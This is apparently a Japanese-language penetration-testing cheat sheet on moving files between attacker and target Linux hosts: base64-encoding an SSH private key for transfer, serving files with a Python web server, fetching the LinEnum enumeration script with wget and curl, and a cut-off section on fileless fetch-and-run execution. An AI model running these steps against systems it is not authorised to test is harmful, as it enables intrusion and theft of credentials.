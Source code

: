 ### Linux
#### Base64エンコーディング/デコード
md5ハッシュを確認する

##### 攻撃者側
```shell-session
md5sum <File>
```

Base64でエンコードする
```shell-session
cat id_rsa |base64 -w 0;echo
```
##### ターゲット側
```shell-session
echo -n 'Base64でエンコードした値' | base64 -d > id_rsa
```

md5ハッシュが一致しているかを確認する
```shell-session
md5sum id_rsa
```

#### WgetとcURLによるWebダウンロード

##### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8080
 ```

  攻撃者サーバーを一時的にwebサーバーとする

##### ターゲット側
wgetでのダウンロード
```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
cURLでのダウンロード
```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### ファイルレス攻撃 / Fileless攻撃
- `fileless` : いくつかのオペレーティングシステム機能を使用してペイロードをダウンロードし、直接実行する
	- スクリプトを直接ダウンロードして、そのままBashで実行する
	- ローカルのファイルシステムに保存されない！！！！
##### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8080
 ```

  攻撃者サーバーを一時的にwebサーバーとする
